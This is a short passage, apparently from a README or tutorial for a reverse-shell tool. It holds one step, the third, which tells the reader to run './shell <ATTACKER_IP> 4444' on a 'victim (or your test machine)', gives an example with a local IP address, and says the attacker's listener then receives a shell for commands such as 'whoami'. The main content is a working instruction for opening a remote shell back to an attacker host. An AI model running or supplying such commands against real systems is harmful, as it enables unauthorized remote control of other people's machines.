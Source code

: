 3. Run the Reverse Shell on Victim (or your test machine)
    ```bash
    ./shell <ATTACKER_IP> 4444
    ```
    Example:
    ```bash
    ./shell 192.168.1.10 4444
    ```
    If successful, your listener terminal gets a shell:

    ```bash
    whoami
    pwd
    ```


